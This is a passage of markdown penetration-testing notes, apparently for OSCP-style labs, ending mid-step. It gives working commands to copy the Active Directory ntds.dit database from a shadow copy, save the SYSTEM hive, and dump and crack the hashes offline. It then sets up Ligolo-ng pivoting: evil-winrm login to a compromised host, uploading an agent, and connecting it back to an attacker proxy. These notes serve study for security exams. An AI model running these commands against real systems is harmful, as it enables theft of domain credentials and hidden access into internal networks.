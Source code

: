      `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\ntds.dit.bak`  
  6. Dump the SYSTEM Hive from the Registry  
     `reg save HKLM\SYSTEM C:\system.bak`  
  8. Move the ntds.dit.bak, system.bak to kali
  9. Use Impacket’s secretsdump.py to parse the NTDS Database Offline  
     `secretsdump.py -ntds ntds.dit.bak -system system.bak LOCAL`
  11. cracked offline by using hashcat or john

# Port tunneling and port redirection
- Tutotial
  - [How to Use Ligolo-ng (Easy to Follow Pivoting Tutorial)](https://www.stationx.net/how-to-use-ligolo-ng/)  
  - [Lateral Movement guide to multi hop pivioting with ligolo-ng](https://cyberwarfare.live/lateral-movement-a-guide-to-multi-hop-pivoting-with-ligolo-ng/)
  - [How to Tunnel and Pivot Networks using Ligolo-ng](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)  
- Network visualization  
  ```
  Attacker-Proxy (192.168.x.x)
          |
          |  (Ligolo-ng / SSH / Chisel Tunnel)
          |
   +-------------------------------+
   | MS01 - Agent / Compromised    |
   | Server                        |
   |                               |
   | 192.168.x.x  (External)       |
   | 172.0.x.x    (Internal)       |
   +-------------------------------+
                |
        -----------------
        |               |
   DC01 (172.0.x.x)   MS02 (172.0.x.x)
  ```
- 🖥️ **Ligolo-ng setup and install**
  1. Install ligolo-ng to include ligolo-ng proxy file  
     `sudo apt install ligolo-ng`
  3. Download the agent files from the GitHub for the target machine (In OCSP is windows)  
     - https://github.com/nicocha30/ligolo-ng/releases
     - [ligolo-ng_agent_0.8.1_windows_amd64.zip](https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.1/ligolo-ng_agent_0.8.1_windows_amd64.zip)
     - After extracted, 3 files:agent.exe, License, readme.md
  5. Connect to compromised server (agent) - MS01  
     `evil-winrm -i <TARGET_IP> -u <USERNAME> -p '<PASSWORD>'`
  6. Transfer the agent.exe to compromised server (agent) - **MS01**   
     `*Evil-WinRM* PS C:\Users\eric.wallows\Documents> upload /home/kali/offsec/ligolo/agent.exe C:/Users/eric.wallows/Documents/agent.exe`  
  8. Setup proxy in **kali** > Create a new TUN interface ligolo and bring it up    
     ```
     sudo ip tuntap add user <Your Username-kali> mode tun ligolo
     sudo ip link set ligolo up
     ```
  9. Start the ligolo-proxy with selfcert option from **kali**  
     `ligolo-proxy -selfcert`
  10. Start the agent in compromised server (agent) - **MS01**   
      `*Evil-WinRM* PS C:\Users\eric.wallows\Documents>.\agent.exe -connect <kali>:11601 -ignore-cert`  
  12. Agent joined. Back to **ligolo** terminal  
  13. Set up tunnel and configure the route to establish a connection  
      ```
      ligolo-ng » session
      